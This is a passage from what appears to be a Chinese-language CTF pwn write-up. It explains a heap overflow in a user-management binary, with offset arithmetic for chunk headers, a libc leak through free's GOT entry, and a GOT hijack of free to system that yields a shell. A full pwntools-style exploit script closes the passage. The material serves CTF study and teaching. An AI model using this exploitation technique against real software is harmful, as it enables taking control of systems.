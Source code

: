 不难发现，即使有上述防护措施的限制，我们依然可以溢出到 `user1` 并覆盖其中数据。如果把 libc 中函数的 GOT 表地址放进去，然后 `display` 函数打印出来，就能泄露 libc 地址。然后进行 GOT 劫持即可 getshell。

需要注意的是，上图中 `Desc1` 前和 `&Desc1` 前都有 8 字节 chunk header，覆盖时需要考虑它们占的 16B。此外，`Desc0+user0` 原本所占的空间实际上是 `0x8+0x80+0x8+0x80`，而 `Desc3` 申请 `0x100` 字节时实际占 `0x8+0x100`，前者比后者多出空闲的 `0x8` 字节，也需要考虑。因此计算偏移 `0x100+0x8+0x8+0x80+0x8=0x198`。

放上 `0x198` 字节的 padding 后，就可以把 `free` 的 GOT 地址放在 `&Desc1` 处，此时打印出来的就是 `free` 的 GOT 地址，从而泄露出 libc。这时再利用更新功能用 `system.plt` 覆盖 `free.got`，那么执行 `free` 时就会执行 `system`。此时还差一个参数 `/bin/sh`，我们不妨放在 `Desc2` 处，那么在删除 `user2` 时，有源码：

```c
unsigned int __cdecl delete(unsigned __int8 index)
{
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  if (index < (unsigned __int8)total_users && users[index] )
  {
    free(*(void **)users[index]);
    free(users[index]);
    users[index] = 0;
  }
  return __readgsdword(0x14u) ^ v2;
}
```

这里就会执行 `free(address of /bin/sh)`，实际上就是 `system('/bin/sh')`。

```python
def add(max_len, desc_len, text):
    sla('Action:', '0')
    sla('description:', str(max_len))
    sla('name:', 'aaaa')
    sla('length:', str(desc_len))
    sla('text:', text)

def delete(index):
    sla('Action:', '1')
    sla('index:', str(index))

def display(index):
    sla('Action:', '2')
    sla('index:', str(index))

def update(index, desc_len, text):
    sla('Action:', '3')
    sla('index:', str(index))
    sla('length:', str(desc_len))
    sla('text:', text)

add(0x80,0x80,'a'*0x80)
add(0x80,0x80,'b'*0x80)
add(0x8,0x8,'/bin/sh\x00')
delete(0)

add(0x100,0x19c,'a'*0x198+p32(elf.got['free']))
display(1)
ru('tion:')
free = u32(r(4))
leak('free',free)
system,binsh = ret2libc(free,'free')

update(1,4,p32(system))
delete(2)
```
